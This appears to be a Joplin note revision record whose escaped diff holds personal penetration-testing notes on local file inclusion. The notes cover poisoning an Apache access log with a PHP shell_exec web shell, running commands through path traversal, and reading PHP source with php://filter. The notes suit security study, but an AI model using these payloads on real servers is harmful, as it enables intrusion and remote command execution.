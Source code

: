 id: 32232da8d3a1419b9270611dbecad245
parent_id: 
item_type: 1
item_id: 54f3c3c6bf6d444999743b6cd8637c38
item_updated_time: 1646016695300
title_diff: "[{\"diffs\":[[1,\"25a155d6e25643a8b38321f077231846\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"id: 25a155d6e25643a8b38321f077231846\\\r\\\nparent_id: 180adbb644b74e58b878bef13fa359fc\\\r\\\nitem_type: 1\\\r\\\nitem_id: 1094d9f035074e3a8ef344a61a88cf5e\\\r\\\nitem_updated_time: 1643129183504\\\r\\\ntitle_diff: \\\"[]\\\"\\\r\\\nbody_diff: \\\"[{\\\\\\\"diffs\\\\\\\":[[0,\\\\\\\"\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\access.log\\\\\\\"],[1,\\\\\\\"; On Linux, /var/log/apache2/access.log\\\\\\\\\\\\\n\\\\\\\\\\\\\n> nc 192.168.1.102 80\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> &lt;?php echo 'pre&gt;' . shell\\\\\\\\\\\\\\\\_exec($\\\\\\\\\\\\\\\\_GET\\\\\\\\\\\\\\\\['cmd'\\\\\\\\\\\\\\\\]\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> \\\\\\\\\\\\\\\\# To access log\\\\\\\\\\\\\n\\\\\\\\\\\\\nAfter writing to the log file, run the file\\\\\\\\\\\\\n\\\\\\\\\\\\\n> http://192.168.1.102/index.php?page=../../../../../var/log/apache2/access.log&cmd=id\\\\\\\\\\\\\n\\\\\\\\\\\\\n# Bypassing php-execution\\\\\\\\\\\\\n\\\\\\\\\\\\\nSo if you have an LFI you can easily read `.txt`-files but not `.php` files. That is because they get executed by the webserver, since their file-ending says that it contains code. This can be bypassed by using a build-in php-filter.\\\\\\\\\\\\\n\\\\\\\\\\\\\n> http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index \\\\\\\\\\\\\n\\\\\\\\\\\\\nHere you use a php-filter to convert it all into base64. So in return you get the whole page base64 encoded. Now you only need to decode it. Save the base64-text into a file and then run:\\\\\\\\\\\\\n\\\\\\\\\\\\\n> base64 -d savefile.php\\\\\\\"]],\\\\\\\"start1\\\\\\\":2952,\\\\\\\"start2\\\\\\\":2952,\\\\\\\"length1\\\\\\\":12,\\\\\\\"length2\\\\\\\":853}]\\\"\\\r\\\nmetadata_diff: {\\\"new\\\":{},\\\"deleted\\\":[]}\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nupdated_time: 2022-01-25T16:46:23.931Z\\\r\\\ncreated_time: 2022-01-25T16:46:23.931Z\\\r\\\ntype_: 13\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1415}]"
metadata_diff: {"new":{"id":"54f3c3c6bf6d444999743b6cd8637c38","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016695292,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:22.241Z
created_time: 2022-02-28T02:54:22.241Z
type_: 13